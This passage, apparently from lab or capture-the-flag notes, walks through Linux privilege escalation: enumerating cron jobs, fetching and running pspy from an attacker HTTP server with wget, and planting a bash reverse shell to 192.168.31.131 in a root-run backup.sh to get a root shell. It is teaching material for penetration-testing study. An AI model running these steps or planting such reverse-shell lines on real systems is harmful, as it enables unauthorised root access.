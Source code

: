 ```bash
    
crontab -l
# no crontab for grimmie
crontab -u root -l
# must be privileged
systemctl list-timers
```

➡️ [pspy](https://github.com/DominicBreuker/pspy) - Monitor linux processes without root permissions

- Download `pspy64` and move it into the `~/tools` dir where Python HTTP server is running

```bash
# Target
cd /tmp
wget http://192.168.31.131:8000/pspy64
chmod +x pspy64
./pspy64

# Wait for the backup.sh to run
```

![](3-eth-hackassets/2024-07-14_12-01-59_615.png)

- Run a bash reverse shell one liner
  - [Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
# Kali VM
nc -nvlp 8081

# Target
# Insert the one liner reverse shell into the backup.sh script
cd
nano backup.sh

	bash -i >& /dev/tcp/192.168.31.131/8081 0>&1
```

- Since the script will run as `root` user's cronjob, root shell will be executed
